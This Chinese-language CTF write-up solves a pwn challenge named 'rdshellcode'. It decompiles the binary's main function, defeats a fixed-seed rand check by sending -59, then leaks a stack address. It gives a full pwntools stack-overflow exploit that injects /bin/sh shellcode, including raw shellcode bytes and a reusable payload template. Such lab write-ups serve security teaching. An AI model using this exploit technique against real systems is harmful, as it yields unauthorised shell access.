

# rdshellcode

打开附件，观察main函数:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[104]; // [rsp+0h] [rbp-70h] BYREF
  int v5; // [rsp+68h] [rbp-8h] BYREF
  int v6; // [rsp+6Ch] [rbp-4h]
 
  setvbuf(stdin, 0LL, 0, 0LL);
  setvbuf(stdout, 0LL, 1, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("I'm glad that you choose pwn");
  puts("But i am n0t sure you really love pwn or not");
  puts("Can't you prove yourself?");
  puts("Tell me something....");
  srand(0x2023u);
  v6 = rand() % 2 - 60;
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("You DO Not Really Love PWN !");
    exit(1);
  }
  puts("Nice!!!!, you have proved your love for pwn");
  printf("It's time for me: %p\n", buf);
  puts("Dot' you want to make friends with me?");
  read(0, buf, 0x100uLL);
  return 0;
}
```

`v6`实际上是一个伪随机数，一直为-59，我们让`v5`的值为-59即可
然后程序会输出一个地址



发现地址是随机化的，所以我们要用pwntools里的内置函数读取printf出的buf的地址

```python
from pwn import *
p = remote("10.102.32.142",27714)
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p.sendline(b'-59')
p.recvuntil(b':')
buf = p.recvline()
print(buf)
#shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
# shellcode = '\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05'
 
payload = b'A' * (0x70 + 8) + p64(int(buf,16) + 0x70 + 8 + 8)  + shellcode
p.sendline(payload)
p.interactive()
```

buf的栈深度是0x70，64位程序＋8，后面再＋8是shellcode地址的长度，于是我们可以得到如下模板

`payload = b'A' * (栈深度 + 8) + p64(int(栈地址,16) + 0x70 + 8 + 8)  + shellcode`

shellcode我们可以用pwntools生成

```python
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
```
